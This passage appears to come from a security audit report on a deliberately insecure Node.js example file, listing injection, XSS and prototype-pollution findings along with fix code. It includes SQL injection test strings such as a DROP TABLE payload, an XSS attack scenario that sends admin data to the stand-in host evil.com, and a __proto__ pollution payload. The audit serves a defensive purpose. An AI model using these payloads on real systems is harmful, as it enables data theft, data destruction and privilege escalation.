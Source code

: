 ```javascript
    });
});
```
**Category:** SQL/NoSQL Injection  
**Remediation Timeline:** Immediate (< 24 hours)  
**Testing:** Test with `' OR '1'='1`, `'; DROP TABLE users; --`, `1' UNION SELECT * FROM information_schema.tables--`

---

### 🔴 CRITICAL Risk Score: 9/10 | Threat: Data Confidentiality
### Issue: Cross-Site Scripting (XSS) via Direct HTML Injection
**Component:** `insecure_example.js`  
**Lines 25-28, 30-34, 36-45:** Direct user input in HTML responses  
**Detection Pattern:** User input directly embedded in HTML without encoding  
**Business Impact:** Session hijacking, credential theft, malicious script execution  
**Attack Scenario:** Attacker submits `<script>fetch('/api/admin/users').then(r=>r.text()).then(d=>fetch('http://evil.com/steal?data='+encodeURIComponent(d)))</script>` to steal admin data  
**Fix:**
```javascript
const DOMPurify = require('isomorphic-dompurify');
const validator = require('validator');

app.get('/search', (req, res) => {
    const query = req.query.q;
    
    // Escape HTML characters
    const safeQuery = validator.escape(query);
    
    res.send(`<h1>Search results for: ${safeQuery}</h1>`);
});

app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    
    // Sanitize HTML if rich content is needed
    const cleanComment = DOMPurify.sanitize(comment);
    
    res.send(`<div class="comment">${cleanComment}</div>`);
});
```
**Category:** XSS Prevention  
**Remediation Timeline:** Immediate (< 24 hours)  
**Testing:** Test with `<script>alert('XSS')</script>`, `<img src=x onerror=alert('XSS')>`, `javascript:alert('XSS')`

---

### 🔴 CRITICAL Risk Score: 9/10 | Threat: Data Confidentiality & Service Availability
### Issue: Prototype Pollution via Unsafe Object Merge
**Component:** `insecure_example.js`  
**Lines 134-149, 151-155:** Recursive merge without prototype protection  
**Detection Pattern:** Object merge/assign operations with `__proto__` vulnerability  
**Business Impact:** Application compromise, privilege escalation, DoS attacks  
**Attack Scenario:** Attacker sends `{"__proto__": {"isAdmin": true}}` to pollute all objects with admin privileges  
**Fix:**
```javascript
function safeMerge(target, source) {
    const safeTarget = Object.create(null);
```